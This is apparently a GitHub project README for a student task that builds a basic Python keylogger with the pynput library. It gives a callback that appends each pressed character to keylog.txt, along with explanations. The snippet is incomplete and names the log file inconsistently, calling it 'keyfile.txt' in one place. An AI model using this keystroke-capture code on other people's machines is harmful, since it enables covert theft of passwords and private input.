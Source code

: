 # prodigy_task_04
Create a basic keylogger program that records and logs keystrokes. Focus on logging the keys pressed and saving them to a file. Note: Ethical considerations and permissions are crucial for projects involving keyloggers.
from pynput import keyboard
This line imports the keyboard module from the pynput library, which is used for monitoring and controlling input devices, such as keyboards and mice.
def keyPressed(key):
    print(str(key))
    with open("keylog.txt", 'a') as logkey:
        try:
           char = key.char
           logkey.write(char)
        except:
            print("Error getting char")

This block defines a function named keyPressed that takes a key parameter. Inside the function, it prints the string representation of the key to the console.
It then opens a file named "keyfile.txt" in append mode ('a') and attempts to get the character representation of the key (key.char).
If successful, it writes the character to the file. If there's an exception (error) during this process, it prints an error message.

The input() function is included to keep the script running indefinitely until the user manually terminates it.

In summary, the code sets up a keylogger using the pynput library, defining a callback function to handle key presses and logging them to a file named "keylog.txt".
The script continues running until the user manually stops it.
